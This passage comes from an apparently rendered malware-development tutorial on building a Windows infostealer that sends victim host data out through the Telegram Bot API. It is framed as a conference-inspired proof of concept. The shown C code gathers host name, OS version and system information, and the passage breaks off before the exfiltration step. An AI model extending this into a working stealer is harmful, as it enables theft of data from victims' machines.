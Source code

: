 \newpage
\subsection{4. malware development trick. Stealing data via legit Telegram API. Simple C example.(Windows)}

﷽

![malware](./images/124/2024-06-17_14-44.png){width="80%"}      

**Before continuing a couple more examples of malware for Windows. These are examples of the simplest infostealers that abuse legal APIs like Telegram Bot API, VirusTotal API and Discord Bot API. This concept is very important because in further examples of mobile stealers I will use these resources to transmit sensitive information from the victim's device.**     

In one of my last presentations at the conference [BSides Prishtina](https://bsidesprishtina.org/), the audience asked how attackers use legitimate services to manage viruses (C2) or steal data from the victim’s host.    

This post is just showing simple Proof of Concept of using Telegram Bot API for stealing information from Windows host.    

### practical example

Let's imagine that we want to create a simple stealer that will send us data about the victim's host. Something simple like systeminfo and adapter info:    

```cpp
char systemInfo[4096];

// get host name
CHAR hostName[MAX_COMPUTERNAME_LENGTH + 1];
DWORD size = sizeof(hostName) / sizeof(hostName[0]);
GetComputerNameA(hostName, &size);  // Use GetComputerNameA for CHAR

// get OS version
OSVERSIONINFO osVersion;
osVersion.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
GetVersionEx(&osVersion);

// get system information
SYSTEM_INFO sysInfo;
GetSystemInfo(&sysInfo);

```